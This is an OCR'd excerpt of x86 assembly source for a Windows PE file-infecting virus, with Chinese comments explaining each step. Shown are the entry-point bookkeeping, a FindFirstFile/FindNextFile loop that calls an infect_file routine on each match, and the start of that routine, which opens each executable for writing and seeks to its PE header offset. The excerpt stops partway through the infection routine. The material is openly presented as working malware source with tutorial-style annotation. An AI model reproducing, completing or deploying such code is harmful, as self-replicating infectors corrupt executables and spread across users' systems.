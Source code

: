     cmp Ori_Entry[ebp], 0h
    jnz save_entry
    mov Ori_Entry[ebp], 401000h
; 什么情况下Ori_Entry[ebp]中的值会是0h呢？只有在运行现在这个程序的时候。在后面的代码中可以看到， 在传染时，被感染的EXE中Ori_Entry[ebp]都被填入了原入口地址，所以只有这个程序在执行时Ori_Entry[ebp] 中为0h。

save_entry:
    push Ori_Entry[ebp]
    pop Ret_Entry[ebp]
; 因为Ori_Entry[ebp]在后面写入EXE时要改为其他的值，所以，先把本次运行的入口地址保存起来，之后跳转使用。

    lea eax, FindData[ebp]
    push eax
    lea eax, FindFile[ebp]
    push eax
    call ZFindFirstFile ; 查找第一个文件
; 每一个API的调用都在前面加上了一个Z，声明在后面的调用函数部分。
    cmp eax, INVALID_HANDLE_VALUE
    jz end_find ; 查找完毕
    mov FindHandle[ebp], eax
    call infect_file ; 感染文件
    
find_next:
    lea eax, FindData[ebp]
    push eax
    push FindHandle[ebp]
    call ZFindNextFile ; 查找下一个文件
    cmp eax, FALSE
    jz end_find ; 查找完毕
    call infect_file ; 感染文件
    jmp find_next

infect_file:
; 下面开始是感染判断及感染过程。
    push 0h
    push FILE_ATTRIBUTE_NORMAL
    push OPEN_EXISTING
    push 0h
    push FILE_SHARE_READ + FILE_SHARE_WRITE
    push GENERIC_READ + GENERIC_WRITE
    lea eax, FindData[ebp].cFileName
    push eax
    call ZCreateFile ; 打开文件
    cmp eax, INVALID_HANDLE_VALUE
    jz create_err
    mov OpenHandle[ebp], eax

    push FILE_BEGIN
    push 0h
    push 3ch
    push OpenHandle[ebp]
    call ZSetFilePointer ; 指向文件3ch处
; 从文件开始数起的3ch处是MZ Header中记录的PE头的偏移。
